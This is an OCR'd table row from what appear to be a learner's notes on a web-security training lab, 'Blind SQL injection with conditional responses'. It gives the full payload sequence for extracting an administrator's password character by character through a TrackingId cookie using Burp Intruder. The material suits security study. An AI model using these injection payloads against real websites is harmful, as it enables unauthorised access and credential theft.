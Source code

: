 |35    |Blind SQL injection with conditional responses                                                                           |Identify ‘users’ table: ' AND (SELECT 'a' FROM users LIMIT 1)='a  Identify username ‘administrator’: ' AND (SELECT 'a' FROM users WHERE username='administrator')='a  Identify number of characters in password (sequentially up from 1 until false): TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a  Identify first character of password using Intruder (payload at the final ‘a’ character): ' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a  Identify second character of password using Intruder (payload in same position): ' AND (SELECT SUBSTRING(password,2,1) FROM users WHERE username='administrator')='a                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                             |TrackingId=hmrLj6LL5ucS27Cr' AND '1'='1. This returns the “Welcome Back!” message but TrackingId=hmrLj6LL5ucS27Cr' AND '1'='2 does not. Indicates how you can infer the result. ' AND (SELECT 'a' FROM users LIMIT 1)='a. This will infer that the table ‘users’ exists. ' AND (SELECT 'a' FROM users WHERE username='administrator')='a. This infers that the username ‘administrator’ exists. Then, sequentially identify how many characters are in the password. TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a. Change the number until it returns false. The last ‘true’ statement is at >19, so there are 20 characters in the password. Then use Intruder to determine each character of the password. ' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a Add the intruder position at the final ‘a’ character, as this will get Intruder to iterate through this character. Grep-Match ‘Welcome Back’ to identify the character that is correct for the first character of the password. Then, re-run the attack so that it tests for the second character. ' AND (SELECT SUBSTRING(password,2,1) FROM users WHERE username='administrator')='a|Practitioner, SQLi                          |